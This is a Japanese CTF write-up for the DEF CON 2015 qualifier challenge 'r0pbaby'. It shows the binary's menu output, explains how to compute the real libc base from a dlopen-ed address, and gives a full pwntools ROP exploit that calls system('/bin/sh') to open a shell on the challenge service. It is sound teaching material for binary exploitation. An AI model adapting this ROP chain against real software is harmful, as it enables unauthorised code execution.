 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2015/defcon-qualifier-ctf-2015-r0pbaby/
  - /blog/2016/01/07/defcon-qualifier-ctf-2015-r0pbaby/
date: 2016-01-07T00:49:08+09:00
tags: [ "ctf", "writeup", "pwn", "rop" ]
---
```


# DEF CON Qualifier 2015: r0pbaby

## [Baby's First 1: r0pbaby](https://github.com/ctfs/write-ups-2015/tree/master/defcon-qualifier-ctf-2015/babys-first/r0pbaby)

>   r0pbaby\_542ee6516410709a1421141501f03760.quals.shallweplayaga.me:10436 [Download]()

起動すると以下のようにmenuが現れ色々と親切にしてくれる問題。
ただしその分asmは読みにくい。

``` sh
$ ./r0pbaby

Welcome to an easy Return Oriented Programming challenge...
Menu:
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 1
libc.so.6: 0x00007EFE0BB324D0
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 2
Enter symbol: system
Symbol system: 0x00007EFE0B3DA890
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 3
Enter bytes to send (max 1024): 8
DDDDDDDD4
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: Exiting.
```

ただし、表示されるのは中で`dlopen`をして得られた`libc.so.6`のアドレスであるため、これの上に飛ぼうとするとsegvする。
`dlopen`されたlibcと本来のlibcのアドレスの差は固定のようなので、これを元に本来のlibcのアドレスを求める。

`libc.so.6`が与えられない[^1]が、おそらくこれは表示させたシンボルのアドレスから[libcdb.com](http://libcdb.com/)などでlibcを検索すればよい。
手元で動かしたものから検索しても引っかからなかったが、これはosがarchであるから登録がなされていないのだとして無視した。[^2]

``` python
#!/usr/bin/env python2
from pwn import * # https://github.com/Gallopsled/pwntools/tree/2.2/pwnlib

context.log_level = 'debug'
# p = process('./r0pbaby')
p = remote('localhost', 8022)

p.sendlineafter(': ', '1')
p.recvuntil(': ')

offset = 0x7974d0 # difference between dlopen-ed libc and original libc, from (attached) gdb
libc = int(p.recvline(keepends=False), 16) - offset

# on my /usr/lib/libc.so.6
pop_rdi_ret = 0x21012
system = 0x3f890
bin_sh = 0x1653b8

payload = ''
payload += p64(0) # pop ebp
payload += p64(libc + pop_rdi_ret) # ret
payload += p64(libc + bin_sh)
payload += p64(libc + system)

p.sendlineafter(': ', '3')
p.sendlineafter(': ', str(len(payload)))
p.send(payload)

p.sendline('4')

p.sendline('ls')
p.interactive()
```

[^1]: ように見える
[^2]: 詳しくないので正直少し不安
